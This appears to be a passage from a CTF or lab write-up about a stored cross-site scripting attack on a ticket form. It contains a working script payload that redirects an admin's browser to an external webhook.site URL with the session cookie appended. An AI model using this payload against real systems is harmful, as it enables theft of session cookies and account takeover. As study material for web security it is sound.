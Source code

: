 We can set up a webhook at webhook.site and then enter the following command into the ticket submission field:
```
<script>window.location.href = `https://webhook.site/99acbbcc-f95d-40f0-8678-2b6a4518b613/?param=${document.cookie}`</script>
```
and wait for the admin user to reload the page. (This might not be the best solution since the admin user will be redirected to the webhook.site website).
